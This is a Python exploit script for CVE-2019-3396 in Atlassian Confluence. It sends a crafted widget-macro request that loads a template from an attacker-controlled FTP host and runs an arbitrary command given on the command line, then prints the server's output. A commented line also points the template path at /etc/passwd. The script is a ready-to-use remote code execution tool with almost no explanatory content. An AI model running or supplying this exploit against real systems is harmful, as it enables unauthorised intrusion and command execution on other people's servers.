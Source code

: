 ```
#coding=utf-8

print(r'''
 _____              __ _                             ______  _____  _____ 
/  __ \            / _| |                            | ___ \/  __ \|  ___|
| /  \/ ___  _ __ | |_| |_   _  ___ _ __   ___ ___   | |_/ /| /  \/| |__  
| |    / _ \| '_ \|  _| | | | |/ _ \ '_ \ / __/ _ \  |    / | |    |  __| 
| \__/\ (_) | | | | | | | |_| |  __/ | | | (_|  __/  | |\ \ | \__/\| |___ 
 \____/\___/|_| |_|_| |_|\__,_|\___|_| |_|\___\___|  \_| \_| \____/\____/ 
                                                                          
                                By Jas502n
                                CVE-2019-3396                                          
                                         
 ''')
import os
import sys
import re
import requests


# url = "http://10.10.20.181"
url = sys.argv[1]
cmd = sys.argv[2]

proxies = {
    "http":"http://127.0.0.1:8080",
    "https":"https://127.0.0.1:8080",
    "http":"socks5h://127.0.0.1:1080",
    "https":"socks5h://127.0.0.1:1080"
}

paylaod = url + "/rest/tinymce/1/macro/preview"

headers = {
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0",
    "Referer": url + "/pages/resumedraft.action?draftId=1&draftShareId=056b55bc-fc4a-487b-b1e1-8f673f280c23&",
    "Content-Type": "application/json; charset=utf-8"
}

# pyftp = "file:///etc/passwd"

pyftp = "ftp://192.168.210.156:8887/r.vm"


data = '{"contentId":"1","macro":{"name":"widget","body":"","params":{"url":"https://www.viddler.com/v/23464dc5","width":"1000","height":"1000","_template":"%s","command":"%s"}}}' % (pyftp,cmd)
r = requests.post(paylaod, data=data, headers=headers)

# print r.content
if r.status_code == 200 and "wiki-content" in r.text:
    m = re.findall('.*wiki-content">\n(.*)\n            </div>\n', r.text, re.S)
    print "\n>>>>Usage: python test.py url cmd \n"
    print ">>>>Confluence Vuln url:  %s \n" %paylaod
    #去掉每行头尾空白
    print '>>>>Command Response:\n',m[0].strip()   
```
